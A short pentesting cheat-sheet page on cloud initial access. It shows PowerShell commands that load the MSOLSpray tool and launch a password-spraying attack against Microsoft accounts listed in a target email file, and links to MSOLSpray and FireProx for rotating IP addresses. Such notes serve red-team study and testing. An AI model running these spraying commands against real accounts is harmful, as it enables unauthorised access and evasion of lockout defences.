 ```yaml
---
description: see gaining access page
---
```


# Initial Access

{% content-ref url="../cloud-pentesting/03-gaining-access/" %}
[03-gaining-access](../cloud-pentesting/03-gaining-access/)
{% endcontent-ref %}



## Password Spraying

### **MSOLSpray**

* Import the module&#x20;

```powershell
. C:\Tools\MSOLSpray\MSOLSpray.ps1
```

* Start the attack

```powershell
Invoke-MSOLSpray -UserList C:\Users\user\Desktop\target-email.txt -Password "PasswordHere"
```

{% embed url="https://github.com/dafthack/MSOLSpray" %}

{% embed url="https://github.com/ustayready/fireprox" %}
IP rotation
{% endembed %}
